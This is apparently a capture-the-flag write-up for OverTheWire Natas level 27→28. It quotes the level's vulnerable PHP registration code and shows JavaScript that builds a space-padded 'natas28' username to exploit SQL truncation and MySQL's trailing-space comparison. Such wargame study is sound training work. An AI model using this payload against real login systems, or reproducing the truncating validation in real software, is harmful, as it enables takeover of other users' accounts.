








# Natas — Level 27 → 28

**Category:** OverTheWire / Natas  
**Difficulty:** Hard  
**Date:** 2026-08-30

## Goal

A login/registration form:

    Username: [___________]
    Password: [___________]
    [login]

## Solution

The source showed the backing table and a note about it resetting periodically:

    // database gets cleared every 5 min

    /*
    CREATE TABLE `users` (
      `username` varchar(64) DEFAULT NULL,
      `password` varchar(64) DEFAULT NULL
    );
    */

`createUser()` only rejects usernames with *leading or trailing* whitespace, then silently truncates whatever's left to 64 characters before inserting:

    function createUser($link, $usr, $pass){
        if($usr != trim($usr)) {
            echo "Go away hacker";
            return False;
        }
        $user=mysqli_real_escape_string($link, substr($usr, 0, 64));
        $password=mysqli_real_escape_string($link, substr($pass, 0, 64));
        $query = "INSERT INTO users (username,password) values ('$user','$password')";
        ...

`validUser()` and `dumpData()`, on the other hand, use the username exactly as given (`dumpData()` just trims it) with no truncation at all:

    function validUser($link,$usr){
        $user=mysqli_real_escape_string($link, $usr);
        $query = "SELECT * from users where username='$user'";
        ...

    function dumpData($link,$usr){
        $user=mysqli_real_escape_string($link, trim($usr));
        $query = "SELECT * from users where username='$user'";
        ...
        while ($row = mysqli_fetch_assoc($res)) {
            return print_r($row,true);
        }

`trim()` only checks the *ends* of the string, so a username with spaces in the *middle* passes that check untouched — but `createUser()`'s `substr($usr, 0, 64)` still truncates it to 64 characters before storing it, which the check never accounts for. MySQL's default string comparison also ignores trailing spaces (`'natas28' = 'natas28    '` is true), so a value that's truncated down to `"natas28"` padded with spaces is treated as identical to plain `"natas28"` in every later `WHERE username='...'` query — even though it was never rejected as literally trying to register that name.

Built a username 72 characters long — `"natas28"` + 57 spaces + `"anything"` — which passes the `trim()` check (no leading/trailing whitespace) but truncates to exactly `"natas28"` padded to 64 characters once inserted:

    let payload = "natas28" + " ".repeat(57) + "anything";
    document.querySelector('input[name="username"]').value = payload;
    document.querySelector('input[name="password"]').value = "test123";

Submitted it and got a confirmation the account was created:

    User natas28 anything was created!

Then logged in using just `"natas28"` padded with spaces (no `"anything"` needed this time, since only the stored, truncated value matters for the lookup):

    let loginUser = "natas28" + " ".repeat(57);
    document.querySelector('input[name="username"]').value = loginUser;
    document.querySelector('input[name="password"]').value = "test123";

Because MySQL ignores the trailing spaces, `validUser()` matched this against the stored `username='natas28'` entry, and `dumpData()` returned that row's data:

    Welcome natas28 !
    Here is your data:
    Array ( [username] => natas28 [password] => [REDACTED]

## Result

    Password for natas28: [REDACTED]

## Key Takeaway

Two different validation rules on the same value — one at write time (`trim()` checking only the ends of a string) and one implicit at read time (MySQL's trailing-space-insensitive comparison) — created a gap wide enough to drive a truncation attack through. A username could be crafted that was never literally `"natas28"` at any point PHP checked it, yet became database-equivalent to `"natas28"` the moment it was stored and queried, letting a self-registered account be looked up as if it were someone else's.
